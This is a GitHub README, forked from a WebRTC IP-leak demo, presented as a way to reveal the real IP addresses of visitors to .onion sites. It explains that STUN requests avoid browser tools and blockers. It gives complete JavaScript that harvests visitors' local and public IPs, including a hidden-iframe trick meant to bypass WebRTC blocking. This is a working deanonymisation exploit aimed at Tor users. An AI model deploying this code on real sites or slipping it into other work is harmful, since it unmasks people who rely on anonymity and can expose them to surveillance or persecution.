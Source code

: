 # webRTC queries to deobfuscate physical IP addresses of .onion site visitors

demo of non-.onion version, from which this is forked: diafygi.github.io/webrtc-ips/

### What this does

Firefox and Chrome have implemented WebRTC that allow requests to STUN servers be made that will return the local and public IP addresses for the user. These request results are available to javascript, so you can now obtain a users local and public IP addresses in javascript. This demo is an example implementation of that.

Additionally, these STUN requests are made outside of the normal XMLHttpRequest procedure, so they are not visible in the developer console or able to be blocked by plugins such as AdBlockPlus or Ghostery. This makes these types of requests available for online tracking if an advertiser sets up a STUN server with a wildcard domain.

### Code

Here is the annotated demo function that makes the STUN request. You can copy and paste this into the Firefox or Chrome developer console to run the test.

```javascript
//get the IP addresses associated with an account
function getIPs(callback){
    var ip_dups = {};

    //compatibility for firefox and chrome
    var RTCPeerConnection = window.RTCPeerConnection
        || window.mozRTCPeerConnection
        || window.webkitRTCPeerConnection;

    //bypass naive webrtc blocking
    if (!RTCPeerConnection) {
        var iframe = document.createElement('iframe');
        //invalidate content script
        iframe.sandbox = 'allow-same-origin';
        iframe.style.display = 'none';
        document.body.appendChild(iframe);
        var win = iframe.contentWindow;
        window.RTCPeerConnection = win.RTCPeerConnection;
        window.mozRTCPeerConnection = win.mozRTCPeerConnection;
        window.webkitRTCPeerConnection = win.webkitRTCPeerConnection;
        RTCPeerConnection = window.RTCPeerConnection
            || window.mozRTCPeerConnection
            || window.webkitRTCPeerConnection;
    }

    //minimal requirements for data connection
    var mediaConstraints = {
        optional: [{RtpDataChannels: true}]
    };

    //firefox already has a default stun server in about:config
    //    media.peerconnection.default_iceservers =
    //    [{"url": "stun:stun.services.mozilla.com"}]
    var servers = undefined;

    //add same stun server for chrome
    if(window.webkitRTCPeerConnection)
        servers = {iceServers: [{urls: "stun:stun.services.mozilla.com"}]};

    //construct a new RTCPeerConnection
    var pc = new RTCPeerConnection(servers, mediaConstraints);

    //listen for candidate events
    pc.onicecandidate = function(ice){

        //skip non-candidate events
        if(ice.candidate){

            //match just the IP address
            var ip_regex = /([0-9]{1,3}(\.[0-9]{1,3}){3})/
            var ip_addr = ip_regex.exec(ice.candidate.candidate)[1];

            //remove duplicates
            if(ip_dups[ip_addr] === undefined)
                callback(ip_addr);

            ip_dups[ip_addr] = true;
        }
    };

    //create a bogus data channel
    pc.createDataChannel("");

    //create an offer sdp
    pc.createOffer(function(result){

        //trigger the stun server request
        pc.setLocalDescription(result, function(){}, function(){});

    }, function(){});
}

//Test: Print the IP addresses into the console
getIPs(function(ip){console.log(ip);});
```
